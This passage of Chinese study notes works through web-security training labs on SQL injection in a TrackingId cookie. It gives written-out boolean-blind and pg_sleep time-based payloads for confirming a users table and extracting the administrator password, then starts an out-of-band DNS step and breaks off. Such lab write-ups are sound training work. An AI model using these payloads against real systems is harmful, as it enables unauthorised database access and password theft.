     trackingId='xyz' and 1=1--  显示正确,这时候后台执行select track-id from tracking-table where trackingId='xyz' and 1=1--'

再执行payload语句

    trackingId='xyz' and 1=2--  显示错误
证明存在trackingId的盲注

2.确认存在user的表

    TrackingId=US5GTgznltoHpTB6' and (select 'a' from users limit 1)='a'--  显示正确，说明存在user的表

这里要注意：limit 1

3.确认user表中有administrator

    TrackingId=US5GTgznltoHpTB6' and (select username from users where username='administrator')='administrator'--  显示正确，说明users中存在administrator

4.确定password长度

    TrackingId=US5GTgznltoHpTB6' and (select 'a' from users where username='administrator' and length(password)>3)='a'--
    
不断迭代改变password长度，确认长度值为20，这里用burp的intruder实现最好

5.确定password的内容

`TrackingId=US5GTgznltoHpTB6' and (select 'a' from users where username='administrator' and substring(password,1,1)='c')='a'--`

改变substring的参数1和'c'，能够挨个确定password的内容，用burp的cluster bomb方式采用intruder实现

###lab14：时间盲注，爆破administrator的密码###
已知有盲注，有users表和administrator用户

1.确定存在注入点
    TrackingId=AnmPvsCj9wV8q2c4'%3B SELECT CASE WHEN 1=1 THEN pg_sleep(10) ELSE NULL END--  结果延迟10s显示
注意，用burp发送trackingId的时候，这里要用%3B，而不能用;   原因是；在url解码的时候可能识别成其他的了。教程里面一直也都是把所有语句转换成url编码后再发送的。

2.确定有users表
    TrackingId=AnmPvsCj9wV8q2c4'%3B SELECT CASE WHEN (select 'a' from users limit 1)='a' THEN pg_sleep(10) ELSE NULL END--

3.确定有用户administrator

    TrackingId=AnmPvsCj9wV8q2c4'%3B SELECT CASE WHEN (select username from users where username='administrator')='administrator' THEN pg_sleep(10) ELSE NULL END--

4.确定password的长度，burp迭代执行语句

    TrackingId=AnmPvsCj9wV8q2c4'%3B SELECT CASE WHEN (select username from users where username='administrator' and length(password)>30)='administrator' THEN pg_sleep(10) ELSE NULL END--

5.burp迭代爆破password
    TrackingId=AnmPvsCj9wV8q2c4'%3B SELECT CASE WHEN (select username from users where username='administrator' and SUBSTRING(password,1,1)='a')='administrator' THEN pg_sleep(10) ELSE NULL END--

###lab15用SQL注入实现DNS查询###
实现out-of-band查询，通过SQL语句注入，实现DNS查询
参考SQL sheet中oracle语句，
1.打开burp collaborator client，copy下唯一的collaborator编号域名
2.复制oracle中DNS查询语句，将编号域名填入
3.将完成的payload插入到trackingId后实现sql注入，即payload 前缀加上' union，后缀加上--，即可，如下：
